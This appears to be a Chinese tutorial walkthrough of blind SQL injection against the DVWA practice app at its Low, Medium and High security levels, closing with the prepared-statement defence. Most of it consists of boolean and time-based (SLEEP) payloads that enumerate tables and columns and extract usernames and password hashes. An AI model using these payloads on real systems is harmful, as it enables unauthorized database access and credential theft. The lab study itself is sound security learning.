



# SQL Injection(Blind)盲注
1. 与普通SQL注入不同，盲注页面通常不会直接回显数据库内容
2. 仅仅告诉你类似：User ID exists in the database 或者是User ID is MISSING from the database.
3. 也就是说，你只能通过页面返回的真假差异或者响应时间差异来一点点推断数据库信息。

# LOW等级实操
### 1判断是否存在注入
1. 输入恒真条件:1' AND '1'='1
2. 如果返回User ID exists in the database.

说明条件为真

3. 输入恒假条件:1' AND '1'='2
4. 如果返回User ID is MISSING from the database.

**说明真假条件能够控制页面返回结果，就说明存在布尔盲注**


## 2使用注释符截断后续 SQL
1. 常见payload:1' AND 1=1#
2. URL中#需要编码为%23
3. 例如：?id=1' AND 1=1%23&Submit=Submit

## 3判断数据库名长度
1. 判断数据库名长度是否为4
输入
```html
1' AND LENGTH(DATABASE())=4#
```
如果返回exists.说明当前数据库名长度为4
2. 判断是否大于3
输入
```html
1' AND LENGTH(DATABASE())>3-- -
```
如果返回exits,则说明存在
3. 判断是否大于5
输入
```javascript
1' AND LENGTH(DATABASE())>5-- -
```

##  4获取数据库名
使用substring()和substr()逐字符判断
1. 判断数据库第一个为否为d
>1' AND SUBSTRING(DATABASE(),1,1)='d'-- -
如果返回exist，说明第一位是d
2. 判断数据吗第二位是否为V
>1' AND SUBSTRING(DATABASE(),2,1)='v'-- -
以此类推，最终得到dvwa

## 5判断当前数据库用户
1. 判断当前用户长度
>1' AND LENGTH(USER())>10-- -
2. 判断 USER() 第一个字符
>1' AND SUBSTRING(USER(),1,1)='r'-- -
3. 很多本地环境可能是：root@localhost

## 5枚举表名
常用的表有：
```html
information_schema.tables
information_schema.columns
```
1. 判断当前数据库中有多少张表
>1' AND (SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())=2-- -
如果返回exists,说明当前数据库有2张表,也可以逐步判断
```html
1' AND (SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())>1-- -
或者
1' AND (SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())>2-- -
```
DVWA常见的表包括：guestbook
users

2. 判断第一张表名字长度
>1' AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1))=5-- -
如果返回exist，则第一张表名长度为5,但默认数据库的第一张为9(guestbook)
>1' and length((select table_name from information_schema.tables where table_schema=database() Limit 0,1))=9#
3. 枚举第一张表名
>1' and substring((select table_name from information_schema.tables where table_schema=database() limit 0,1)1,1)='g'#
以此类推推出表名

## 6枚举字段名
1. 判断users表字段数量
>1' AND (SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users')>5-- -
2. 判断第一个字段名长度
>1' AND LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0,1))=7-- -
3. 枚举字段名
>1' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0,1),1,1)='u'-- -

## 7枚举users表数据
### 判断Users表中有多少用户
> 1' AND (SELECT COUNT(user) FROM users)=5-- -
通常为:
```html
admin
gordonb
1337
pablo
smithy
```
### 判断第一个用户名长度
>1' AND LENGTH((SELECT user FROM users LIMIT 0,1))=5-- -
如果返回exist，说明第一个用户名长度为5
### 枚举第一个用户名
1. 判断第一个字符是否为a
>1' AND SUBSTRING((SELECT user FROM users LIMIT 0,1),1,1)='a'-- -


2. 判断第二个字符是否为d 
>1' AND SUBSTRING((SELECT user FROM users LIMIT 0,1),2,1)='d'-- -
依次判断，即可得到admin

### 枚举admin的密码哈希
>DVWA中的Password字段一般是哈希值，不是明文
判断admin密码哈希长度
>1' AND LENGTH((SELECT password FROM users WHERE user='admin'))=32-- -
常见MD5长度是32
枚举哈希第1位
>1' AND SUBSTRING((SELECT password FROM users WHERE user='admin'),1,1)='5'-- -
```html
最终结果可能类似5f4dcc3b5aa765d61d8327deb882cf99
```
该MD5对应password

## 8时间盲注实操
```html
布尔盲注依赖页面返回内容不同。

时间盲注依赖响应时间不同。

例如：如果条件为真，就延迟 3 秒；否则正常返回。


```
1. 判断是否存在时间盲注
>1' AND SLEEP(3)-- -
如果页面明显延迟约三秒，说明可以使用时间盲注
2. 条件性时间盲注
判断数据库长度是否为4
>1' AND IF(LENGTH(DATABASE())=4,SLEEP(3),0)-- -
如果延迟三秒，说明数据库长度为4
3. 判断数据库名第一个字符
>1' AND IF(SUBSTRING(DATABASE(),1,1)='d',SLEEP(3),0)-- -
如果延迟三秒，说明第一个字符是d 
4. 使用ASCII判断
>1' AND IF(ASCII(SUBSTRING(DATABASE(),1,1))=100,SLEEP(3),0)-- -
如果延迟，说明第一位ASCII是100.也就是字符d
5. 时间盲注枚举admin密码哈希
判断第一个字符是否为5:
>1' AND IF(SUBSTRING((SELECT password FROM users WHERE user='admin'),1,1)='5',SLEEP(3),0)-- -
判断第二个字符
>1' AND IF(SUBSTRING((SELECT password FROM users WHERE user='admin'),2,1)='f',SLEEP(3),0)-- -

# Medium等级实操
1. 页面使用下拉框选择 ID
2. 输入点不再直接暴露
3. 部分特殊字符被转义
4. 请求方式可能变成 POST
5. 需要配合 Burp Suite 修改参数

## 1.使用burp suite抓包
开启Burp代理，提交一次正常请求
可能会抓到以下请求
```html
POST /dvwa/vulnerabilities/sqli_blind/ HTTP/1.1
Host: 127.0.0.1
Cookie: security=medium; PHPSESSID=xxxx

id=1&Submit=Submit
```
## 2.修改ID参数
Medium中id可能是数字型注入，不一定需要单引号
恒真测试
>1 AND 1=1 
请求体
>id=1 AND 1=1&Submit=Submit
可能需要URL编码：
>id=1%20AND%201=1&Submit=Submit
恒假测试
>1 AND 1=2
请求体
>id=1%20AND%201=2&Submit=Submit
如果前者返回exist,后者返回Missing，说明存在注入
## 3.Meidum布尔盲注数据库名
判断数据库名长度
>1 AND LENGTH(DATABASE())=4
URL编码后
>id=1%20AND%20LENGTH(DATABASE())=4&Submit=Submit
## 4.Medium枚举数据库名
>1 AND SUBSTRING(DATABASE(),1,1)='d'
URL编码
>id=1%20AND%20SUBSTRING(DATABASE(),1,1)='d'&Submit=Submit
如果单引号被转义或者过滤，可以尝试使用ASCII
>1 AND ASCII(SUBSTRING(DATABASE(),1,1))=100
对应请求参数:
>id=1%20AND%20ASCII(SUBSTRING(DATABASE(),1,1))=100&Submit=Submit
## 5. 时间盲注
>1 AND IF(LENGTH(DATABASE())=4,SLEEP(3),0)
或者
>1 AND IF(ASCII(SUBSTRING(DATABASE(),1,1))=100,SLEEP(3),0)

# High等级实操
特点：
1. 使用 Session 保存参数
2. 页面结构有所变化
3. 查询中可能加入 LIMIT 1
4. 需要更注意注释截断
5. 可能要求从另一个输入窗口提交 ID

### 1.正常测试:
1. 输入1
2. 观察返回：
User ID exists in the database.
3. 输入999
4. 观察返回
>User ID is MISSING from the database.
### 2. 布尔测试
1. 如果是字符型注入，尝试:
>1' AND 1=1-- -
或者
>1' AND 1=2-- -
如果第一条exists,第二条missing，说明可注入

### 3. 绕过limit1
Hwigh代码中可能类似:
>SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;
1. 可以用注释符截断后面的：
>1' AND 1=1-- -
2. 原SQL变成类似
>SELECT first_name, last_name FROM users WHERE user_id = '1' AND 1=1-- -' LIMIT 1;
-- - 后面的内容被注释掉了，也可以使用:
>1' AND 1=1#
### High枚举数据库名
1. 判断长度:
>1' AND LENGTH(DATABASE())=4-- -
2. 判断字符
>1' AND ASCII(SUBSTRING(DATABASE(),1,1))=100-- -
3. 时间盲注
>1' AND IF(ASCII(SUBSTRING(DATABASE(),1,1))=100,SLEEP(3),0)-- -

# Impossible等级分析：
它通常会使用
1. Prepared Statements，预处理语句
2. 参数化查询
3. Anti-CSRF Token
4. 输入类型校验
5. 严格的错误处理
点兴趣安全代码思路：
```html
$stmt = $mysqli->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
```
这里的核心是：
>SQL 结构和用户输入分离
用户输入不会被当成SQL语句的一部分执行，而是作为普通数据处理